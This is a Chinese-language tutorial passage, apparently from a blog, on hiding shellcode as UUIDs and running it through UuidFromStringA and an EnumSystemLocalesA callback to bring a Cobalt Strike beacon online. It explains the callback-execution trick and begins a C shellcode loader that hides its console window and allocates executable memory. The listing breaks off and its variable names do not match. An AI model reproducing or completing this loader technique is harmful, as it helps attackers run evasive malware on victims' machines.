首先我们得先关注一下两个 windows api 函数

### 1.UuidFromStringA

查看微软的官方文档，给出了这样的解释：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODtHzcFTEKicw5DxfyiaqTibEIPAeGYbAqIWnbJguwtVLCCpbMMGdpw2DibTtjcoLYUmiciaE7aia9AqIxDUQ/640?wx_fmt=png)

这个意思说吧，把 uuid 值转换成二进制字节序列，该 api 需要两个参数

1. 转换成二进制字节序列的 uuid 的指针

2. 以二进制形式返回指向 UUID 的指针

第一项参数很好理解，第二项参数可能翻译过来有点牵强，很好理解，就是用来接收二进制字节序列的指针。

其实 python 中也有 uuid 库，转换挺方便的，把字节序列转换成 uuid，再把 uuid 转换成字节序列

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODtHzcFTEKicw5DxfyiaqTibEIPLKfFaMNqDHiaMqXaFhhoF6PdQicweTQfoODzlkm2vFIunJDOt7WDKK7A/640?wx_fmt=png)

还有需要注意的点，就是 windows 二进制字节序列是用的小端计数法, 转换时且二进制序列必须 16 个字符为一组。

### 2.EnumSystemLocalesA

微软官方文档：  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODtHzcFTEKicw5DxfyiaqTibEIP5ic3S7S6qWAdKqLZEfGiavtaPsuiaBTgornNBHibDzqZIJQeQMSaKibDhDA/640?wx_fmt=png)

这里牵扯到回调函数：

回调函数就是一个通过函数指针调用的函数，意思是通过函数指针来调用函数，字面不好理解，你不妨看看以下示例

```
（（void（*）（））exec）();
```

这段代码很经典，很多人看了很懵逼，但是对于懂指针的人来说，理所当然，在 c 语言中，函数变量名存的就是一个函数入口地址，换句话说函数变量名就是一个指针。  

然后再让我们理解以下上面那句代码

```
void(*)() #定义一个函数指针，函数返回值为空
（（void（*）（））exec #强制类型转换，把exec指针强制转换成函数指针
（（void（*）（））exec）();#执行入口地址为exec指向的地址的函数
```

而 EnumSystemLocalesA 函数的第一次个参数就是回调函数地址，第二个参数是指定要枚举的语言环境标识符的标志。

那么上面的就可以写成这个样子：

```
EnumSystemLocalesA（exec,0）;
```

利用 uuid 来加载 shellcode，上线 cs
===========================

我们先来看普通的 shellcode 的 c 加载方式

```
#include <windows.h>  
#include <stdio.h> 
#不弹窗
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"") 
#pragma comment(linker, "/INCREMENTAL:NO")   

unsigned char shellcode[]="shellcode binary ";

int main()
{
  char *a = VirtualAlloc(NULL, sizeof(xor_xcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(a, xcode, sizeof(xcode));
```